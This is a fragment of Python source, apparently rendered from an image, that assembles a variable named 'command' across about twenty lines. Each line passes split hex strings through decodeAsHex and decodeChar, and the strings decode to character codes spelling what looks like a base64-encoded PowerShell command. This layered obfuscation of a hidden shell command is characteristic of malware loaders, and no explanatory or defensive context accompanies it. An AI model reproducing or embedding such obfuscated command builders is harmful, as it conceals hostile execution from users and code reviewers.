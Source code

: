 ```py
    command = command + decodeChar(decodeAsHex("363520313232203635203731203733203635") + decodeAsHex("20383920313139203636203130362036352036382038392036352039302036352036352031303320363520363720343820363520383320363520363620313038"))
    command = command + decodeChar(decodeAsHex("36352037312036392036352039302036352036362031303820363520373220373320363520393920313139203635") + decodeAsHex("20313033203635203639203635203635203130312031313920363520313035203635203639"))
    command = command + decodeChar(decodeAsHex("363920363520313030203831203636203438203635203731203130332036352039") + decodeAsHex("38203131392036362031323120363520373120313037203635203130312031303320363620313034203635203732203831"))
    command = command + decodeChar(decodeAsHex("363520393720383120363620") + decodeAsHex("313138203635203731203532203635203733203130332036352035372036352036372038312036352039372038312036362035372036352036382031313520363520313030"))
    command = command + decodeChar(decodeAsHex("313139203636203131312036352037312031303720363520393820363520363620313038") + decodeAsHex("2036352036372036352036352037352036352036352031303720363520373220383120363520393920313033203636"))
    command = command + decodeChar(decodeAsHex("34392036352037312038352036352037352038312036362035352036352036372038312036352038392031313920363520353720363520363720313033203635203833203831203636203131") + decodeAsHex("37203635203732"))
    command = command + decodeChar(decodeAsHex("38392036352039382031313920363620313134203635203731203835203635203736203831203636203833") + decodeAsHex("20363520373120383520363520393920313139203636203438203635203639203438203635203930"))
    command = command + decodeChar(decodeAsHex("38312036362034382036352037312031303320363520393820313139203636203130372036352036372036352036352037362038312036362038362036352037322037") + decodeAsHex("37203635203930203831203636203637"))
    command = command + decodeChar(decodeAsHex("363520373120363920363520393920313139203636203131322036352037312037372036352038352036352036362031303420363520") + decodeAsHex("37322037332036352039392031313920363620313132203635203731"))
    command = command + decodeChar(decodeAsHex("35322036352039302031313920363520313033203635203637203438203635203836203831203636203132312036352037312031303720363520373320363520363520313037203635203732203635") + decodeAsHex("203635"))
    command = command + decodeChar(decodeAsHex("37342036352036362031323220363520363720") + decodeAsHex("35362036352037372036352036352034382036352036382037372036352039302031303320363520313231203635203638203831203635203737203635203635"))
    command = command + decodeChar(decodeAsHex("353320363520363720363520363520373620383120363620373320363520373120383520363520383920383120363620313037203635") + decodeAsHex("2037312038352036352039392031303320363620313232203635203637"))
    command = command + decodeChar(decodeAsHex("36352036352038312036352036362035352036352036372037332036352038") + decodeAsHex("3120383120363620343920363520373220383120363520393720363520363620313138203635203732203733203635203937"))
    command = command + decodeChar(decodeAsHex("383120363620353420363520373120363920363520") + decodeAsHex("313030203635203636203131322036352037312035362036352039382031303320363520313035203635203638203438203635203734203635203636"))
    command = command + decodeChar(decodeAsHex("31313220363520373220343820363520") + decodeAsHex("37352038312036352035352036352037312031303720363520393020313033203635203130332036352036372031303320363520373420363520363620313036203635"))
    command = command + decodeChar(decodeAsHex("3637") + decodeAsHex("20363520363520373620383120363620313137203635203731203835203635203733203635203635203131302036352036392035322036352039382031313920363620313137203635203731203835"))
    command = command + decodeChar(decodeAsHex("363520373420313139203635203131322036352036372036352036352031303120313139203635203130372036352037322037332036352038302038312036362031313220363520") + decodeAsHex("373120383520363520313031"))
    command = command + decodeChar(decodeAsHex("36352036352031303320") + decodeAsHex("363520363720383120363520383920313139203635203130332036352036372034382036352038322038312036362031323120363520373220373320363520393820313139203636"))
    command = command + decodeChar(decodeAsHex("3132312036352036392036392036352038392031313920363620343820363520373120313037203635203938203131392036362031313720363520") + decodeAsHex("363720363520363520383520313139203636203438203635"))
    command = command + decodeChar(decodeAsHex("3731203536203635203939203635203635203130332036352036372034382036352038322038312036362031323120") + decodeAsHex("36352037322037332036352039382031313920363620313231203635203730203839"))
    command = command + decodeChar(decodeAsHex("363520383920383120363620313231203635203731203130372036352038392038") + decodeAsHex("31203636203130352036352037312031313920363520393020383120363520313033203635203731203835203635203739"))
```